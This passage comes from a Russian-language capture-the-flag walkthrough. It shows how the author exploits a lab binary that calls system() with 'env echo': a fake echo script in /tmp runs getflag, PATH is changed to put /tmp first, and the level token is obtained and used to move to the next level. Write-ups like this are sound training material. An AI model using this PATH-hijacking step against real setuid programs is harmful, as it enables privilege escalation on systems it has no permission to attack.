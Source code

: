ltrace выведет все библиотечные функции, которые используются
```sh
ltrace ./level03
```
2. Уязвимость:

system("/usr/bin/env echo Exploit me")

создаю свой echo, меняю PATH на путь к себе в начале, запускаю level03:
```sh
ls -la / 
# нахожу место допустимое для записи 
# ||
# \/
# d-wx-wx-wx   4 root root   80 Feb  6 13:14 tmp 
```

создаю своё echo
```
echo '#!/bin/bash' > /tmp/echo
echo "getflag" >> /tmp/echo
chmod 777 /tmp/echo
```

```sh
#!/bin/bash
# my echo:

getflag
```
меняю начало переменной PATH на путь к нужной мне папке - с моим скриптом echo:
```sh
export PATH=/tmp:$PATH
```
запускаю снова:
```sh
./level03
# ||
# \/
# Check flag.Here is your token : qi0maab88jeaj46qoumi7maus

# перехожу к 4му уровню
su level04 qi0maab88jeaj46qoumi7maus
```

#
###### [вернуться к содержанию](#content)
<a name="lvl04"></a> 
# level04
1. Проверяю содержимое директории:
```sh
ls -la
cat level04.pl
```
